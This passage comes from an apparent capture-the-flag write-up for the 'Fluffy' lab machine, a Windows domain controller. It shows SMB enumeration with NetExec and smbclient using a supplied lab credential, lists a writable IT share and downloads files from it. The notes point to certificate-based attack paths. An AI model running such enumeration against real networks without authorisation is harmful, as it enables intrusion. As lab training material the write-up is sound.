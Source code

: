 **Notes:** The extensive service enumeration reveals a typical Windows Domain Controller configuration with ADCS capabilities. The presence of LDAPS (636) and certificate details in the scan output indicate Active Directory Certificate Services are enabled, opening attack vectors for certificate-based exploitation. Alternative tools like `masscan` or `rustscan` could provide faster results but less detailed service fingerprinting.

## 3️⃣ SMB Enumeration

**Tools:**
- NetExec (nxc)
- smbclient
- Provided credentials: `j.fleischman:J0elTHEM4n1990!`

**Content:**
Using the provided credentials, initial SMB enumeration was performed:

```bash
nxc smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
{: .nolineno }

**Results:**
```
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             IT              READ,WRITE      
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share
```
{: .nolineno }

**IT Share Analysis:**
The `IT` share provided read/write access and contained several interesting files using <mark style="background: #ABF7F7A6;">smbclient</mark> Tool.

```bash
smbclient //fluffy.htb/IT -U j.fleischman
```
{: .nolineno }

**Results:**
```bash
└─$ smbclient //fluffy.htb/IT -U j.fleischman
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep  1 00:22:38 2025
  ..                                  D        0  Mon Sep  1 00:22:38 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 20:38:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 20:34:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 20:38:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 20:33:17 2025
  update.library-ms                   A      364  Sat Aug 30 22:19:37 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 20:01:07 2025

		5842943 blocks of size 4096. 2151248 blocks available
smb: \> mget *
Get file Everything-1.4.1.1026.x64.zip? Y

getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (89.7 KiloBytes/sec) (average 89.7 KiloBytes/sec)
Get file KeePass-2.58.zip? Get file update.library-ms? Y
getting file \update.library-ms of size 364 as update.library-ms (0.2 KiloBytes/sec) (average 83.2 KiloBytes/sec)
Get file Upgrade_Notice.pdf? Y
```